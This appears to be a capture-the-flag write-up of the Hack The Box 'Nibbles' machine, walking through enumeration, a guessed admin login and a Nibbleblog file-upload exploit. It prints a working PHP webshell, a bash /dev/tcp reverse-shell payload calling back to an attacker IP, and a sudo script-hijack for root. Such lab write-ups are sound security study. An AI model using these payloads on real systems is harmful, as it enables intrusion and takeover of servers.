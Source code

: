 ```yaml
---
layout: post
released: 2018-01-13
creators:
  - mrb3n
pwned: true
tags: diff/easy os/linux
category: HTB
description: "Nibbles is running a nibble blog on port 80 which is hidden behind the nibbleblog directory. Through a directory fuzz we can find an admin panel and are able to login through guessing the admin password. The site is vulnerable to an authenticated file upload RCE which we use to get user shell on the box. After which we find a vulnerable privilege to run a shell script in a directory where we have write access which we can use to escalate to root."
image: https://labs.hackthebox.com/storage/avatars/344a8f99e8f7dddfed764f791e2731df.png
---
```

![nibbles](https://labs.hackthebox.com/storage/avatars/344a8f99e8f7dddfed764f791e2731df.png)
# Information Gathering
## Enumeration
`nmap` found the following ports open:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
A detailed script+service scan reveals the following information:

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP
Running on port `80` is an `http` website running `Apache httpd 2.4.18`:\
![Pasted image 20250213170012.png](/assets/img/2025-02-14-Nibbles/Pasted image 20250213170012.png)\
Viewing the page source reveals something interesting:

```html
<b>Hello world!</b>














<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
Navigating to that directory we find the following homepage:\
![Pasted image 20250213170207.png](/assets/img/2025-02-14-Nibbles/Pasted image 20250213170207.png)
A directory scan on the webroot found these directories:

```
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.200.170/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/737/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 298, Words: 22, Lines: 12, Duration: 290ms]
.hta                    [Status: 403, Size: 293, Words: 22, Lines: 12, Duration: 2518ms]
.htpasswd               [Status: 403, Size: 298, Words: 22, Lines: 12, Duration: 4711ms]
index.html              [Status: 200, Size: 93, Words: 8, Lines: 17, Duration: 305ms]
server-status           [Status: 403, Size: 302, Words: 22, Lines: 12, Duration: 287ms]
:: Progress: [4739/4739] :: Job [1/1] :: 129 req/sec :: Duration: [0:00:43] :: Errors: 0 ::
```
Nothing quite so interesting as they're all forbidden aside from `index.html`\
A directory scan on the `nibbleblog` directory found:

```
/.hta                 (Status: 403) [Size: 304]
/.htpasswd            (Status: 403) [Size: 309]
/.htaccess            (Status: 403) [Size: 309]
/README               (Status: 200) [Size: 4628]
/admin                (Status: 301) [Size: 327] [--> http://10.129.200.170/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 331] [--> http://10.129.200.170/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/plugins/]
/themes               (Status: 301) [Size: 328] [--> http://10.129.200.170/nibbleblog/themes/]
```
We have found a login page: `/nibbleblog/admin.php`:\
![Pasted image 20250213175925.png](/assets/img/2025-02-14-Nibbles/Pasted image 20250213175925.png)
Looking through the rest of the files we find `users.xml` which confirmed the username `admin` and some sort of blacklist which occurs when more than 5 incorrect login attempts are made:\
![Pasted image 20250214173423.png](/assets/img/2025-02-14-Nibbles/Pasted image 20250214173423.png)
Another file is `README` which contains the `nibbleblog` version: `v4.0.3`
Attempting to login guessing `nibbles` as the password works!
After loging in we reach an admin dashboard:\
![Pasted image 20250213180044.png](/assets/img/2025-02-14-Nibbles/Pasted image 20250213180044.png)
Viewing the `plugins` we find a `my image` plugin, which on initial testing is vulnerable to an arbitrary file upload.

# Exploitation
The following [exploit](https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload/) seems to be present on the enumerated version (`v4.0.3`).
Uploading the following PoC using the `my image` plugin:

```php
<?php system($_GET['cmd'])?>
```
Leads to the following errors being shown:

```
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
```

Ignoring these and checking back on the homepage of the blog we can see the image title and caption for the image we uploaded:\
![Pasted image 20250213181150.png](/assets/img/2025-02-14-Nibbles/Pasted image 20250213181150.png)
opening the image in a new tab redirects to the following directory:

```
http://10.129.200.170/nibbleblog/content/private/plugins/my_image/image.jpg
```

if we replace `.jpg` with `.php?cmd=id` we get the following response:

```
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

Success! we have a `WebShell!`
Uploading the following `PoC`:

```php
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.87/9001 0>&1'")?>
```

Starting a listener:

```
nc -lvnp 9001
```

And then browsing to the shell location:

```
http://10.129.200.170/nibbleblog/content/private/plugins/my_image/image.php
```

Leads to a `RevShell`!:

```
nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 10.129.200.170 34030
bash: cannot set terminal process group (1257): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
```

# Post Exploitation
Looking around in our shell we find that we can run the following sudo command with no password:

```
sudo -l
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Seeing as we have write permissions in the home directory:

```
ls -la
total 24
drwxr-xr-x 4 nibbler nibbler 4096 Feb 14 01:11 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
drwxr-xr-x 3 nibbler nibbler 4096 Feb 14 01:11 personal
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Mar 12  2021 user.txt
```
We can create a file called `monitor.sh` in `~/personal/stuff` with the following contents:

```bash
#!/bin/bash
bash
```

We then set the file to be executable:

```bash
chmod +x monitor.sh
```

and when we execute it as `sudo` we get a root shell!:

```
sudo ./monitor.sh
root@Nibbles:/home/nibbler/personal/stuff#
```
